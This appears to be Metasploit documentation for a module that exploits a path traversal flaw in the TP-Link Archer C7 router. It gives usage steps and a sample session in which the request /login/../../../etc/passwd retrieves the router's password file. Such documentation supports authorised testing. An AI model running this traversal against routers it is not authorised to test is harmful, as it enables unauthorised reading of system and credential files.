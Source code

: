 ## Vulnerable Application

This module attempts to spider files from an archer c7 router using a known traversal vulnerability

## Verification Steps

1. `use auxiliary/scanner/http/archer_c7_traversal`
2. `set RHOSTS <addr>`
3. `set FILE <file>`
4. `run`

## Scenarios

### Archer C7

```
msf6 > use auxiliary/scanner/http/archer_c7_traversal
msf6 auxiliary(scanner/http/archer_c7_traversal) > set rhosts 192.168.0.1
rhosts => 192.168.0.1
msf6 auxiliary(scanner/http/archer_c7_traversal) > run

[*] Grabbing data at /login/../../../etc/passwd
[+] /etc/passwd retrieved
root:x:0:0:root:/root:/bin/sh
Admin:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/bin/sh
daemon:x:2:2:daemon:/usr/sbin:/bin/sh
adm:x:3:4:adm:/adm:/bin/sh
lp:x:4:7:lp:/var/spool/lpd:/bin/sh
sync:x:5:0:sync:/bin:/bin/sync
shutdown:x:6:11:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
uucp:x:10:14:uucp:/var/spool/uucp:/bin/sh
operator:x:11:0:Operator:/var:/bin/sh
nobody:x:65534:65534:nobody:/home:/bin/sh
ap71:x:500:0:Linux Usermmm:/root:/bin/sh
admin:x:500:500:admin:/home:/bin/sh
guest:x:500:500:guest:/home:/bin/sh
root:x:0:0:root:/root:/bin/sh
admin:x:500:500:admin:/tmp/dropbear:/bin/sh

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
